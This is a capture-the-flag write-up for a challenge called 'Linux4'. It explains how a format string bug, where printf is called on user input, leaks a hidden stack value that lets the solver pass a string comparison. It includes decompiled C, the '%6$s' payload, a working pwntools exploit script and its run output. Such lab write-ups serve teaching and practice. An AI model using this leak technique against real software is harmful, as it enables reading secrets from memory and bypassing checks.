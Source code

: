 # Linux4 CTF Writeup

## Challenge Overview

This challenge involves bypassing a logical check by leaking a hidden value from memory using a format string vulnerability. The program asks for a specific input ("fruit") and compares it to a value stored internally. If the value is correct, access is granted.

## Analysis

Upon execution, the binary prints:
```
Guard: I am hungry, I want to eat some fruit..
```

It then waits for user input. Internally, the program compares this input to a hidden value, likely stored on the stack or in memory. If the input matches, the program proceeds; otherwise, it exits.

The binary contains a format string vulnerability that allows me to leak data from the stack—specifically, the value the guard is expecting.

### Key Code Analysis

```c
iVar1 = rand();
strcpy((char *)&local_c2,(char *)((long)&local_b8 + (long)(iVar1 % 7) * 10));
puts("Guard: I am hungry, I want to eat some fruit..");
fgets(local_68,0x50,stdin);
puts("Guard: So you think I like?");
printf(local_68);
fgets(local_68,0x50,stdin);
iVar1 = strncmp(local_68,(char *)&local_c2,5);
if (iVar1 == 0) {
puts("Guard: Numnumnum..you..can..pass..numnumnum..");
vault();
}
else {
puts("Guard: You are wrong!");
}
```

The interesting part is that the value isn't accessed directly; instead, it's stored somewhere in memory. Using `%6$s`, we can dereference a pointer on the stack and leak the value.

## Exploitation and Payload Strategy

The strategy involves exploiting the **format string vulnerability** to leak the guard's expected input from memory.

steps:
1. Send a format string payload `%6$s` to print the 6th stack argument as a string.
2. Capture the leaked value from the output.
3. Send the leaked value back to the program to pass the string comparison check.

Here’s the exploit script:

```python
from pwn import *

p = process('./linux4')

# Step 1: wait for the guard prompt
p.recvuntil(b'Guard: I am hungry, I want to eat some fruit..')

# Step 2: leak the value from the stack using format string
p.sendline(b'%6$s')

# Step 3: extract leaked value from output
p.recvuntil(b'Guard: So you think I like?\n')
leaked = p.recvline().strip()
leaked = leaked.replace(b'?', b'')  # remove '?' if present
print(f'leaked value: {leaked}')

# Step 4: send the leaked string back
p.sendline(leaked)

# Step 5: interact with the process to receive the flag
p.interactive()
```

## Result and Solution

Running the exploit results in the following output:

```bash
┌──(kali㉿kali)-[~/linux_challenges/linux4]
└─$ /bin/python /home/kali/linux_challenges/linux4/solve.py
[+] Starting local process './linux4': pid 49924
leaked value: b'cherry'
[*] Switching to interactive mode
[*] Process './linux4' stopped with exit code 0 (pid 49924)
Guard: Numnumnum..you..can..pass..numnumnum..
flag_(this_is_your_flag_if_you_made_it)
[*] Got EOF while reading in interactive
$  
```
## Conclusion and Lessons

This challenge demonstrates the danger of format string vulnerabilities, especially when combined with unsafe input handling. By abusing the `%s` format specifier, which dereferences a pointer, we can leak secrets stored in memory and use them to bypass logic check

## References
- ![alt text](/img/image-6.png)
- ![alt text](/img/image-7.png)

